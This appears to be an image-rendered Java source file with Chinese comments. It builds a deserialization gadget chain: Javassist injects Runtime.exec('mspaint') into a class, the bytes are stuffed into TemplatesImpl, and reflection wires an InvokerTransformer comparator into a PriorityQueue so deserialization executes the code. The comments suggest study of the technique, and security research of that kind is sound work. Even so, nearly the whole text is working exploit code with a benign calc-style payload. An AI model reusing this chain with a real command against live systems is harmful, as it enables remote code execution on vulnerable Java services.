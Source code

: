 	        CtClass placeholder = classPool.get(Placeholder.class.getName());
	        placeholder.setSuperclass(classPool.get(Class.forName(abstractTransletClassPath).getName()));
	        // 这里insertBefore还是After都一样，反正都是在静态初始化块里写代码
	        placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"mspaint\");");
	        placeholder.setName("EvalClass");
	        // 得到恶意类的字节码
	        byte[] evalByte = placeholder.toBytecode();
	
	        TemplatesImpl templates = TemplatesImpl.class.getConstructor(new Class[0]).newInstance();
	        Class<? extends TemplatesImpl> clazz = templates.getClass();
	        // 将恶意字节码填充到TemplatesImpl对象中
	        Field bytecodes = clazz.getDeclaredField("_bytecodes");
	        bytecodes.setAccessible(true);
	        bytecodes.set(templates,new byte[][]{evalByte});
	
	        // 还需要设置TemplatesImpl对象的_name属性，否则不能顺利执行：TemplatesImpl#getTransletInstance()
	        Field name = clazz.getDeclaredField("_name");
	        name.setAccessible(true);
	        name.set(templates,"p1n93r");
	
	        // 现在TemplatesImpl准备好了，需要一个类反序列化时触发：TemplatesImpl#newTransformer
	        // 使用PriorityQueue类反序列化触发
	        PriorityQueue<Object> res = new PriorityQueue<>(2);
	        // 为啥不在这个地方添加TemplatesImpl对象：因为add操作会触发比较，而TemplatesImpl没有实现Comparable接口
	        // 所以只能后面用反射进行添加了
	        res.add(1);
	        res.add(1);
	
	        // 现在将TransformingComparator和TemplatesImpl对象设置到PriorityQueue中，
	        // 使得PriorityQueue反序列化时调用TransformingComparator#tranformer(templatesImpl)，从而触发整个利用链
	        Class<? extends PriorityQueue> resClazz = res.getClass();
	
	        // 先构造一个TransformingComparator
	        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[0], new Object[0]);
	        TransformingComparator newTransformerComparator = new TransformingComparator(invokerTransformer);
	        // 设置PriorityQueue的comparator
	        Field comparator = resClazz.getDeclaredField("comparator");
	        comparator.setAccessible(true);
	        comparator.set(res,newTransformerComparator);
	
	        // 然后将TemplatesImpl对象设置到PriorityQueue中
	        Field queue = resClazz.getDeclaredField("queue");
	        queue.setAccessible(true);
	        queue.set(res,new Object[]{templates,templates});
	
	
	        return res;
	    }
	
	    public static void main(String[] args) throws Exception{
	        Object payload = getPayload();
	        SerialUtil.runPayload(payload);
	    }
	
